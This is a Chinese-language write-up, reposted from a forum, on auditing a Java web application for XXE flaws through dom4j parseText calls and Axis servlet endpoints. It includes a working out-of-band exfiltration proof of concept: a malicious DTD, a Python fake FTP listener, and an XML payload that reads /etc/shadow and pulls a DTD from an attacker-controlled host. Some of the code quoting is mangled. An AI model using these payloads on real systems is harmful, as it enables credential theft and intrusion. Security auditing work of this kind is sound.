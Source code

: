 # XXE 审计与利用思路

> 原文：[https://www.zhihuifly.com/t/topic/3595](https://www.zhihuifly.com/t/topic/3595)

## XXE 审计与利用思路

第一处出现在系统使用的org.dom4j.DocumentHelper调用的类函数下。

在源码中搜索关键字DocumentHelper.parseText

得到：

```
\xxx\***\***.java 
Line 303:    document = DocumentHelper.parseText(xml);

\xxx***\XmlParser.java

Line 51:    Document doc = DocumentHelper.parseText(xmlStr);

\xxx******Task.java

Line 350:    Document document = DocumentHelper.parseText(result);

\xxx******Action.java

Line 237:    Document document = DocumentHelper.parseText(mapDataForOut);

\xxx***\xxxAction.java

Line 259:    Document document = DocumentHelper.parseText(mapDataForOut);

\xxx***\xxx.java

Line 120:    Document doc = DocumentHelper.parseText(policyXml.replaceAll("_lnx", “”));

Line 125:    doc = DocumentHelper.parseText(node.asXML());

\xxx***tion.java

Line 109:    Document doc = DocumentHelper.parseText(xmlStr);

\xxx***.java

Line 58:    doc = DocumentHelper.parseText(xml); // 将字符串转为XML

\xxx***.java

Line 92:    doc = DocumentHelper.parseText(xml);

Line 97:    oldDoc = DocumentHelper.parseText(vaildXml);

\xxx***ObjConverter.java

Line 173:     Document document = DocumentHelper.parseText(xml);

\xxx***.java

Line 949:     doc = DocumentHelper.parseText(infor.getContent());

\xxx***Utility.java

Line 1203:     Document doc = DocumentHelper.parseText(result);

\xxx***xxxService.java

Line 177:     Document doc = DocumentHelper.parseText(requestHeader);

\xxx***\EventParser.java

Line 83:    Document doc = DocumentHelper.parseText(xmlStr);

Line 185:    Document doc = DocumentHelper.parseText(xmlStr);

Line 229:    Document doc = DocumentHelper.parseText(xmlStr);

Line 306:    DocumentHelper.parseText(contentXml)).replaceAll("<", “&lt;”).replaceAll(">", “&gt;”).replaceAll("==amp;",

\xxx***\XMLMessageUtil.java

Line 24:    doc = DocumentHelper.parseText(xml);

Line 131:    tempDoc = DocumentHelper.parseText(xml);

Line 224:    document = DocumentHelper.parseText("<a><b></b></a>");

\xxx***\XmlParser.java

Line 51:    Document doc = DocumentHelper.parseText(xmlStr); `\xxx***.java

Line 244:    Document doc = DocumentHelper.parseText(xmlStr);` 
```

其中，`\xxx\***\XMLMessageUtil.java`

![image](img/047773fc10cbff33e1680fd358c55cfb.png)

代码中 使用org.dom4j.DocumentHelper.parseTest解析XML文件

第二处，发现位置是在查看web.xml文件中AxisServlet的servlet-mapping配置，发现URL地址包含以下路径或后缀就可被攻击利用

```
***\WebRoot\WEB-INF\web.xml 
xxx\***\WebRoot\WEB-INF\web.xml
<servlet-mapping>
<servlet-name>AxisServlet</servlet-name>
       <url-pattern>/servlet/AxisServlet</url-pattern>
   </servlet-mapping>  
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>*.jws</url-pattern>
   </servlet-mapping>
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>/services/*</url-pattern>
   </servlet-mapping> 
```

在通过访问以下URL即可访问到AxisServlet服务，可对其进行XXE漏洞攻击。

```
https://www.0-sec.org/xxx/servlet/AxisServlet
https://www.0-sec.org/***/servlet/AxisServlet 
```

### poc

0x1:

在复现时由于目标主机无法访问外网，所以需要在本地主机上搭建测试环境，具体的复现过程如下（嗯额这里感谢一下同事）：

*   1）新建目录xxe_test，复制下面文件放入

test.dtd

```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://ip/%data3;'>"> 
```

*   2)在xxe_test目录下运行如下命令，监听8080端口（检查防火墙是否开放该端口）

Python -m SimpleHTTPServer 8080

*   3)运行以下脚本，启动ftp服务器（检查防火墙是否开放21端口）

> Python xxe-ftp.py

```
#!/usr/env/python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

s.bind((‘0.0.0.0’,21))

s.listen(1)

print(‘XXE-FTP listening ‘)

conn,addr = s.accept()

print(‘Connected by %s’,addr)

conn.sendall(‘220 Staal XXE-FTP\r\n’)

stop = False

while not stop:

dp = str(conn.recv(1024))

if dp.find(“USER”) > -1:

conn.sendall(“331 password please - version check\r\n”)

else:

conn.sendall(“230 more data please!\r\n”)

if dp.find(“RETR”)==0 or dp.find(“QUIT”)==0:

stop = True

if dp.find(“CWD”) > -1:

print(dp.replace(‘CWD ‘,’/’,1).replace(’\r\n’,’’),end=’’)

else:

print(dp) `conn.close()

s.close()` 
```

*   4)发送以下报文：

```
POST /xxx/*** HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: https://target_ip/xxx/***.jsp
ContentType: pplication/x-www-form-urlencoded
Cookie: JSESSIONID=WwV5E_ZpZVWhnIKEaFuuphs1.localhost; ops.cookie.principal=xxxxx
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 159 `<?xml version=“1.0”?>

<!DOCTYPE r [

<!ENTITY % data3 SYSTEM “file:///etc/shadow”>

<!ENTITY % sp SYSTEM “http://Your_IP/test.dtd”>

%sp;

%param3;

%exfil;

]>` 
```

![image](img/57d18e83b2000ebe2d1ac3aff789a343.png)

**漏洞截图**：

0x1:

成功获取到受害主机的/etc/shadow文件

![image](img/e70506587da99034f03c8cd61bfdccf0.png)